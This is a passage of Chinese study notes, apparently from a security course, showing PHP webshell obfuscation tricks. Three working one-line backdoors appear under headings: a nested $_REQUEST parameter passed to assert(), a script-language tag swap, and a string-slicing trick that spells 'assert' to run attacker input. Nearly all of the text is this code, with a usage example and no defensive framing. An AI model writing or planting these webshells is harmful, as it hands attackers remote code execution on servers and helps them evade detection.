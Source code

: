###### ②嵌套$_REQUEST

```php
<?php
//?b=cmd&cmd=phpinfo();
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

![更换数据源2](../../images/8-17-afternoon/更换数据源2.png)

##### e. 替代<.??>标签

```php
<script language="php">
    @assert($_REQUEST['cmd']);
</script>
```

![更换php标签](../../images/8-17-afternoon/更换php标签.png)

##### f. 字符串组合法

```php
<?php
$str = 'abcsqebrt';
$a = $str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```

![字符串截取](../../images/8-17-afternoon/字符串截取.png)
